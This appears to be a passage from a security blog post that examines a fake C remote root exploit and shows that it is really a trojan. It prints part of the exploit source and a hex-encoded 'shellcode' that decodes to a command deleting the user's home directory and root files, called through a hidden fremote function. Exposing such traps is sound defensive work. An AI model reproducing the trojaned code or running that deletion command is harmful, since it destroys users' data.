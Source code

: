 ```c
    if(connect(sock, (struct sockaddr*)&addr, sizeof(addr))  == -1) {
        printf("  [-] connecting failed\n");              
    }

    payload[sizeof(payload)-1] = '\0';
    payload[sizeof(payload)-2] = '\0';
    send(sock,buffer,strlen(buffer),0);
    send(sock,payload,strlen(payload),0);
    close(sock);
    free(payload);
    addr.sin_port = htons(6666);
    if(connect(sock, (struct sockaddr*)&addr, sizeof(addr))  == 0) {
                   /* v--- our cool bar that says: "r0000000t!!!" */
        printf("\n  [~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~>]\n\n");
        fremote("PS1='sh-3.2#' /bin/sh");
    }
    else
        printf("  [-] failed to exploit target :-(\n");
    close(sock);
    return 0;
}
```

It's an exploit written in C which we can compile without problems, let's see how it generally works:

There are shellcodes, it seems a normal exploit.
There is a simple usage.
You need root permissions to use it.
It uses the socket, nothing strange because it's a remote exploit, right?
Once inside set the PS1 and that's it. Perfect.

It looks like a normal exploit but let's analyze it deeper:

The first shellcode that I want to analyze is:  

```c
\x72\x6D\x20\x2D\x72\x66\x20
\x7e\x20\x2F\x2A\x20\x32\x3e
\x20\x2f\x64\x65\x76\x2f\x6e
\x75\x6c\x6c\x20\x26
```

Let's try to convert it in a string: `rm -rf ~ /* 2> /dev/null &`
That is nothing more than a command which allows you to delete your home. WTF?? Why does a similar command should be in an exploit to access to a remote machine?

Let's search the occurrences of that shell script and we'll arrive in a declaration line: `char h[500],buffer[1024];fremote(jmpcode);char *payload, *ptr;`

Looking closer I notice there is a call to a function:

`fremote(jmpcode)`

Mmh let's search the usage of that function:


[^1]: [Exploit](https://en.wikipedia.org/wiki/Exploit_(computer_security)) 
[^2]: [Shell Code](https://en.wikipedia.org/wiki/Shellcode)
